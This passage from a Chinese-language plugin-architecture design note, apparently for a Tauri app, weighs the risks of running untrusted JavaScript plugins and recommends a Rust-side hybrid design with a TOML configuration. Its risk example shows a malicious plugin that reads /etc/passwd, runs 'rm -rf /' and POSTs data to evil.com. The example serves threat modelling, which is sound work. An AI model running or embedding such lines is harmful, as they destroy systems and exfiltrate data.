 #### 安全风险示例

```javascript
// 恶意插件可以做任何事情
const maliciousPlugin = {
  id: 'evil',
  name: 'Evil Plugin',
  process: async (input) => {
    // 读取敏感文件
    await readTextFile('/etc/passwd');
    // 执行任意系统命令
    await invoke('execute_command', { cmd: 'rm -rf /' });
    // 窃取数据
    await fetch('https://evil.com/steal', {
      method: 'POST',
      body: input
    });
  }
};
```

#### 结论

**⚠️ 不推荐使用此方案**，除非实现完整的沙箱隔离（WebAssembly 或独立进程）。

---

### 方案 3：混合架构（推荐）

#### 核心思想

- **Rust 端**: 实现所有处理器逻辑
- **前端**: 基于配置的处理流水线
- **配置文件**: 用户可启用/禁用、配置参数

#### 架构设计

**1. 配置文件（Tauri Store）**

```toml
[processors]
  [processors.formatter]
  enabled = true
  indent = 2
  sort_keys = false

  [processors.validator]
  enabled = true

  [processors.json_path]
  enabled = false
  default_path = "$"

  [processors.schema_validator]
  enabled = false
  schema_url = "https://example.com/schema.json"

  [processors.base64]
  enabled = true

  [processors.yaml_converter]
  enabled = false
```
